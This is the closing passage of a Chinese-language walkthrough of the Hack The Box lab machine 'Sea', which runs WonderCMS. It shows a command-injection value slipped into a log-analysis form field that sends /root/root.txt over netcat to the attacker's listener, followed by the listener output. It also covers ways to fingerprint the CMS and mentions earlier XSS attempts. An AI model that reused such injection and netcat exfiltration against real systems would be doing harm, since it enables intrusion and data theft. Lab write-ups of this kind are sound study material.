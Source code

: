 
发送payload：`log_file=/home/amay/user.txt;nc+10.10.14.47+80+<+/root/root.txt&analyze_log=`

```
└─$ nc -lvnp 8088
listening on [any] 8088 ...
connect to [10.10.14.47] from (UNKNOWN) [10.10.11.28] 43518
a24c9<SNIP>4595
```



---

## 总结·后记

2024/08/15

……

### 关于识别WonderCMS的其他方法

#### 方法2 - theme的默认图片

首页抬头的图片，其路径为：`http://sea.htb/themes/bike/img/velik71-new-logotip.png`，猜测是bike主题中的默认图片，于是谷歌图片名 `velik71-new-logotip` 能找到和上面一样的关于**WonderCMS**的讨论网站。

#### 方法3 - README.md

参考大佬视频，感觉这是最靠谱的方法。很可惜目录枚举由于没有想过枚举 `.md` 而错过了这个，且在枚举出 `LICENSE` 的情况下也没想起来手动试一下访问 `http://sea.htb/themes/bike/README.md`，实际上可得到以下信息：
```
└─$ curl http://sea.htb/themes/bike/README.md
# WonderCMS bike theme

## Description
Includes animations.

## Author: turboblack

## Preview
![Theme preview](/preview.jpg)

## How to use
1. Login to your WonderCMS website.
2. Click "Settings" and click "Themes".
3. Find theme in the list and click "install".
4. In the "General" tab, select theme to activate it.
```

### sea项目

中途有几次发送XSS payload但是返回 `Failed to submit form. Please try again later.`，结合进入靶机后有几次尝试写入文件都因为磁盘空间不足而失败的经历，看来是同样的原因让 `file_put_contents` 函数执行失败所以报错。

```
www-data@sea:/$ cat /var/www/sea/.htaccess 
Options -Indexes
ServerSignature Off
RewriteEngine on
RewriteCond %{REQUEST_FILENAME} !-f
RewriteCond %{REQUEST_FILENAME} !-d
RewriteRule ^(.+)$ index.php?page=$1 [QSA,L]
RewriteRule database.js - [F]
RewriteRule cache.json - [F]
www-data@sea:/$ cat /var/www/sea/contact.php 
<!DOCTYPE html>
<html lang="en">
```